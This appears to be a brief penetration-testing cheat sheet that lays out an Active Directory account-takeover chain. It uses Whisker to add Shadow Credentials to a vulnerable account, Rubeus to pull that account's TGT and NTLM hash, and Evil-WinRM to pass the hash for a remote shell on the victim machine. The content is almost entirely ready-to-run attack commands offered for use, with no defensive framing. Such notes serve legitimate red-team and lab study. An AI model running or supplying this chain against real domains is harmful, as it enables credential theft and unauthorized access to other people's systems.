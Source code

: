 ## AA


### Whisker
https://github.com/eladshamir/Whisker
Whisker is a C# tool for taking over Active Directory user and computer accounts by manipulating their `msDS-KeyCredentialLink` attribute, effectively adding "**Shadow Credentials**" to the target account.

To identify vulnerable users read `Find-InterestingDomainAcl` from AD Recon cheatsheet.

```
.\Whisker.exe add /target:<CN of vulnerable user>
```
### Rubeus
Automatically obtain the TGT and NTLM hash of the user
```
# Execute the command prepared by Whisker
.\Rubeus.exe asktgt /user:[...]
```
Copy the NTLM hash from the last line
### Evil-WinRM
From the Kali machine exceute evilWinRM to connect to the victim machine
```
evil-winrm -i <IP> -u <vulnerable user> -H <NTLM hash>
```
If connected, you have a great shell with the rights of the victim
